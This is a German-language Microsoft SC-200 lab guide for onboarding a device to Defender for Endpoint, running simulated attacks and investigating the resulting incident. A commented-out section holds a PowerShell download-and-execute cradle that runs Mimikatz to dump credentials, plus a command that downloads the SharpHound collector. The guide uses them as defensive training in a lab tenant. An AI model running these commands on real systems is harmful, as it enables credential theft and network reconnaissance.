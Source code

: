 ```yaml
---
lab:
  title: Übung 2 – Entschärfen von Angriffen mit Microsoft Defender for Endpoint
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# Lernpfad 2 – Übung 1 – Übung 2 – Minimieren von Angriffen mit Microsoft Defender for Endpoint

## Labszenario

![Übersicht über Lab.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

Sie sind Security Operations Analyst in einem Unternehmen, das Microsoft Defender für Endpunkt implementiert. Ihr Vorgesetzter plant, einige Geräte zu integrieren, um einen Einblick in die erforderlichen Änderungen der Reaktionsverfahren des SecOps-Teams zu erhalten.

Um die Fähigkeiten von Defender for Endpoint zur Abwehr von Angriffen zu testen, führen Sie zwei simulierte Angriffe aus.

>**Hinweis:** Eine **[interaktive Labsimulation](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** ist verfügbar, mit der Sie dieses Lab in Ihrem eigenen Tempo durcharbeiten können. Möglicherweise liegen geringfügige Unterschiede zwischen der interaktiven Simulation und dem gehosteten Lab vor, aber die dargestellten Kernkonzepte und Ideen sind identisch.


### Aufgabe 1: Überprüfung des Onboarding der Geräte

In dieser Aufgabe bestätigen Sie, dass das Gerät erfolgreich integriert ist und erstellen eine Testwarnung.

1. Wenn Sie noch nicht im Microsoft Defender XDR-Portal in Ihrem Microsoft Edge-Browser sind, navigieren Sie zu https://security.microsoft.com) und melden sich als Administrator*in für Ihren Mandanten an.

1. Wählen Sie im linken Menü unter **Ressourcen** die Option **Geräte** aus. Bitte warten Sie, bis WIN1 auf der Seite „Geräte“ angezeigt wird, bevor Sie fortfahren. Andernfalls müssen Sie diese Aufgabe möglicherweise wiederholen, um die später generierten Warnmeldungen zu sehen.

    >**Hinweis:** Wenn Sie den Onboarding-Prozess abgeschlossen haben und nach einer Stunde keine Geräte in der Liste „Geräte“ angezeigt werden, kann dies auf ein Onboarding- oder Verbindungsproblem hindeuten.

1. Wählen Sie in der linken Menüleiste **Einstellungen** und dann auf der Seite Einstellungen **Endpunkte** aus.

1. Wählen Sie im Abschnitt Geräteverwaltung **Onboarding** und stellen Sie sicher, dass *„Windows 10 und 11“* als Betriebssystem ausgewählt ist. Die Meldung *„Erstes Gerät integriert“* zeigt nun *Abgeschlossen* an.

1. Scrollen Sie nach unten und kopieren Sie im Abschnitt *„2. Erkennungstest durchführen“* das Erkennungstest-Skript, indem Sie die Schaltfläche **Kopieren**auswählen.  

1. Geben Sie in der Windows-Suchleiste den virtuellen Computer WIN1 **CMD** ein und wählen Sie im rechten Fensterbereich **Als Administrator ausführen** für die Eingabeaufforderung aus. 

1. Wenn das Fenster „Benutzerkontensteuerung“ angezeigt wird, wählen Sie **Ja**, um die App auszuführen. 

1. Fügen Sie das Skript ein, indem Sie mit der rechten Maustaste auf die **Administrator: Eingabeaufforderung** klicken und die **Eingabetaste** drücken, um es auszuführen.

    >**Hinweis:** Nach der Ausführung des Skripts schließt sich das Fenster automatisch.

### Aufgabe 2: Simulierte Angriffe

>**Hinweis:** Das Auswertungslabor und der Abschnitt „Tutorials & Simulationen“ des Portals sind nicht mehr verfügbar. Die folgenden Schritte werden nur zur Referenz bereitgestellt. Eine Demonstration der simulierten Angriffe finden Sie in der **[interaktiven Laborsimulation](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)**. Wir arbeiten daran, einen Ersatz für die simulierten Angriffe zu finden.

<!--- In this task, you will run two *simulated* attacks using *PowerShell* on *WIN1* to explore the capabilities of Microsoft Defender for Endpoint.

`Attack 1: Mimikatz - Credential Dumping`

1. On the *WIN1* machine, type **Command** in the search bar and select **Run as administrator**.

1. Copy and paste the following command in the **Administrator: Command Prompt** window and press **Enter** to run it.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. You should see a message that says *Access is denied*, and a pop-up message from `Microsoft Defender Antivirus, Windows Security Virus and threats protection` displaying *Threats found*.

1. Exit the **Administrator: Command Prompt** window by typing **exit** and pressing **Enter**.

`Attack 2: Bloodhound - Collection`

1. On the *WIN1* machine, type **PowerShell** in the search bar, select **Windows PowerShell** and select **Run as administrator**.

1. Copy and paste the following commands in the **Administrator: Windows PowerShell** window and press **Enter** to run it.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Note:** It is recommended to copy, paste and run the commands one at a time. You can open *Notepad* and copy the commands into a temporary file to accomplish this. The first command creates a folder named *ExternalPayloads* in the same folder where the *Atomic Red Team* folder is located. The second command downloads the *SharpHound.ps1* file from the *BloodHound* GitHub repository and saves it in the *ExternalPayloads* folder.

1. You should see a  pop-up message from `Windows Security Virus and threats protection` displaying *Threats found*.

1. Copy and paste the following command in the **Administrator: Windows PowerShell** window and press **Enter** to run it.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. If the output is *True*, the Malware payload file has not been removed by Microsoft Defender Antivirus. If the output is *False*, the Malware payload file has been removed by Microsoft Defender Antivirus. Use the up-arrow key to repeat the command until the output is *False*. --->

1. Wählen Sie im linken Menü unter **Endpunkte** die Option **Auswertung und Tutorials** und dann auf der linken Seite **Tutorials und Simulationen** aus.

1. Wählen Sie die Registerkarte **Tutorials** aus.

1. Unter *Automatisierte Untersuchung (Hintertür)* sehen Sie eine Meldung, die das Szenario beschreibt.  Klicken Sie unterhalb dieses Absatzes auf **Exemplarische Vorgehensweise lesen**. Eine neue Browser-Registerkarte mit Anweisungen zur Durchführung der Simulation wird geöffnet.

1. Suchen Sie in der neuen Browser-Registerkarte den Abschnitt **Simulation durchführen** (Seite 5, ab Schritt 2) und führen Sie die Schritte zur Durchführung des Angriffs aus. **Hinweis:** Die Simulationsdatei *RS4_WinATP-Intro-Invoice.docm* finden Sie im Portal direkt unter der **exemplarischen Vorgehensweise**, die Sie im vorherigen Schritt über die Schaltfläche **Simulationsdatei erhalten** ausgewählt haben.

<!--- 1. Repeat the last 3 steps to run another tutorial, *Automated investigation (fileless attack)*. This is no longer working due to win1 AV --->

### Aufgabe 3: Untersuchung der Angriffe

1. Wählen Sie im Microsoft Defender XDR-Portal auf der linken Menüleiste **Incidents und Warnungen** und dann **Incidents** aus.

1. Im rechten Bereich wird ein neuer Incident angezeigt mit der Meldung, dass auf einem Endpunkt mehrere Bedrohungsfamilien erkannt wurden. Wählen Sie den Namen des Vorfalls, um seine Details zu laden.

    >**Hinweis:** Im Bereich **Warnungen** sollten Warnungen von *Bloodhound* und *Mimikatz* angezeigt werden. Unter **Ressourcen/Geräte** hat der Computer *win1* jetzt die **Risikostufe** *Hoch*.

1. Wählen Sie die Schaltfläche **Vorfall verwalten** aus und ein neues Fenster wird geöffnet. 

1. Geben Sie unter **Incidenttags** die Zeichenfolge „Simulation“ ein, und wählen Sie **Simulation (Neu erstellen)** aus, um ein neues Tag zu erstellen. 

1. Wählen Sie die Schaltfläche **Zuweisen an**  und fügen Sie Ihr Benutzerkonto (Ich) als Besitzer des Vorfalls hinzu. 

1. Erweitern Sie unter **Klassifizierung**das Dropdownmenü. 

1. Wählen Sie unter **Information, erwartete Aktivität** **Sicherheitstests** aus. 

1. Fügen Sie bei Bedarf Kommentare hinzu und wählen Sie **Speichern**, um das Ereignis zu aktualisieren und zu schließen.

1. Überprüfen Sie den Inhalt der Registerkarten *Angriffshistorie, Alarme, Ressourcen, Untersuchungen, Beweise und Reaktion* und *Zusammenfassung*. Geräte und Benutzer befinden sich unter der Registerkarte *Ressourcen*. Die Registerkarte *Angriffshistorie* zeigt das *Vorfallsdiagramm*. Der **Hinweis:** Einige Registerkarten können aufgrund der Größe Ihres Bildschirms ausgeblendet sein. Wählen Sie die Registerkarte Auslassungspunkte (…), um sie anzuzeigen.

    >**Warnung:** Die hier gezeigten simulierten Angriffe sind eine hervorragende praktische Lernquelle. Führen Sie die Angriffe aus den Anweisungen für diese Übung nur aus, wenn Sie den für den Kurs bereitgestellten Azure-Mandanten verwenden.  Sie können andere simulierte Angriffe für diesen Mandanten durchführen, *nachdem* dieser Schulungskurs abgeschlossen wurde.

## Damit haben Sie das Lab beendet.
